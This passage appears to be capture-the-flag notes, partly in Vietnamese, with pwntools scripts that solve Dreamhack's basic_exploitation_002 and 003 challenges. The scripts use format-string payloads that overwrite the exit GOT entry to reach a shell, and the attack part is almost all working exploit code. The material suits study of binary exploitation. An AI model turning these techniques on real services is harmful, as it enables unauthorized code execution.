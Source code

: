 cách 2  
```
from pwn import *

x = process('./basic_exploitation_002')
x = remote('host1.dreamhack.games', 8202)
e = ELF('./basic_exploitation_002')

payload = fmtstr_payload(1, {e.got['exit'] : e.symbols['get_shell']})
x.send(payload)

x.interactive()
```

cách 3 

```
from pwn import *

p = remote("host3.dreamhack.games", 22246)
e = ELF("./basic_exploitation_002")

exit_got = e.got['exit']
'''
get_shell = 0x08048609
exit_got + 2  =>  0x0804  =  2052 - 8                  =  2044
exit_got      =>  0x8609  =  34313 - 8 - ( 2052 - 8 )  =  32261

'''
payload = p32(exit_got+2) + p32(exit_got) + "%2044c%1$hn" + "%32261c%2$hn"

p.sendline(payload)

p.interactive()
```

---------

15 . basic_exploit_003
-----

easy nên để script ở đây th 

```
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./basic_exploitation_003')

p= process(exe.path)
P = remote(b'host3.dreamhack.games', 18737)
payload = b'%156c' + p32(exe.sym.get_shell)
p.sendline(payload)
p.interactive()
```
